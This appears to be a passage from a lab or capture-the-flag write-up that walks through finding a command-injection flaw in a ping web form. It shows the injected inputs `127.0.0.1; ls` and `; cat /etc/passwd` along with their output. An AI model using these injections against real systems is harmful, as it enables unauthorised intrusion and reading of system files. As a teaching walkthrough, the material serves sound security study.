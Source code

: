 If we compare the output of this web application:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.006 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.010 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.010 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.006/0.008/0.010/0.003 ms, pipe 2
```

With the output of my local Kali machine pinging localhost:

`$ ping -c 3 127.0.0.1`

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.016 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2034ms
rtt min/avg/max/mdev = 0.015/0.015/0.016/0.000 ms
```

I'd say they look pretty similar! There's a decent chance that this webapp is simply passing the user provided input to a system shell and executing `ping`.

If that's the case then it may be vulnerable to command injection.

If I go back to the original page and this time type in `127.0.0.1; ls` we get the following output:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.006 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.010 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.006/0.009/0.011/0.002 ms, pipe 2
index.php
pingit.php
```

Definitely looks like it's vulnerable to command injection!

Passing the value `; cat /etc/passwd` further confirms this with the following output:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
```